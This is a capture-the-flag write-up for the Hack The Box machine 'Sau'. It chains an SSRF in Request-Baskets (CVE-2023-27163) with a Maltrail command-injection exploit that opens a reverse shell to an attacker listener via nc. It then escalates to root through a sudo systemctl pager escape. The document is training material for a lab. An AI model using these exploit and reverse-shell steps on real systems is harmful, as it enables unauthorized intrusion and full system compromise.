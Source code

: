 ```yaml
---
title: HTB - Sau
date: 2023-12-04
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, cve-2023-27163, ssrf, command-injection, request-baskets, maltrail]
img_path: /assets/htb/fullpwn/sau/
published: true
---
```


![room_banner](sau_banner.png)

## Overview

|:-:|:-:|
|Machine|[Sau](https://app.hackthebox.com/machines/551)|
|Rank|Easy|
|Time|1h26m|
|Focus|SSRF, command-injection|

## 1. Information Gathering

```shell
# TCP SYN all ports scanning
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 -p- sau

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
55555/tcp open  unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 04 Dec 2023 13:59:49 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 04 Dec 2023 13:59:22 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 04 Dec 2023 13:59:22 GMT
|_    Content-Length: 0

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Initial Foothold

![](homepage.png)

![](request-baskets_version.png)

[**Request Baskets**](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7) is a web service designed to capture arbitrary HTTP requests and facilitate their inspection through either a RESTful API or a straightforward web user interface.

[CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) represents a critical **Server-Side Request Forgery (SSRF) vulnerability** that was identified in Request-Baskets, affecting all versions up to and including 1.2.1. This particular vulnerability grants malicious actors the ability to gain unauthorized access to network resources and sensitive information by exploiting the `/api/baskets/{name}` component through carefully crafted API requests.

As previously mentioned, Request-Baskets operates as a web application designed to collect and log incoming HTTP requests directed to specific endpoints known as “baskets.” During the creation of these baskets, users have the flexibility to specify alternative servers to which these requests should be forwarded. **The critical issue here lies in the fact that users can inadvertently specify services they shouldn’t have access to, including those typically restricted within a network environment**.

For example, consider a scenario where the server hosts Request-Baskets on port 55555 and simultaneously runs a Flask web server on port 8000. The Flask server, however, is configured to exclusively interact with the localhost. In this context, an attacker can exploit the SSRF vulnerability by creating a basket that forwards requests to http://localhost:8000, effectively bypassing the previous network restrictions and gaining access to the Flask web server, which should have been restricted to local access only.

> [PoC of SSRF on Request-Baskets (CVE-2023-27163)](https://github.com/entr0pie/CVE-2023-27163/tree/main)

```shell
# enumerating internal webserver
 ./CVE-2023-27163.sh http://sau:55555 http://localhost:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "kwpjxa" proxy basket...
> Basket created!
> Accessing http://sau:55555/kwpjxa now makes the server request to http://localhost:80.
> Authorization: TOXDrjpjR4bfvkkSGah34Nvu3r8L7pv3mV3ECGG_IacT
```

![](internal_webserver.png)

> [Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) - Command Injection Vulnerability

```shell
# running maltrail PoC through request-baskets
python3 exploit.py 10.10.14.4 4444 http://sau:55555/kwpjxa
Running exploit on http://sau:55555/kwpjxa/login
```

```shell
# catching a shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.224] 33162
$
```

```shell
# user flag
puma@sau:~$ cat ~/user.txt
cat ~/user.txt
```

## 3. Privilege Escalation

```shell
# checking perms
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

> `sudo systemctl status [service]` [privilege escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager).

```shell
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh
!sshh!sh
# cat /root/root.txt
cat /root/root.txt
```

<figure>
    <img src="sau_pwned.png"
    alt="Machine pwned" >
</figure>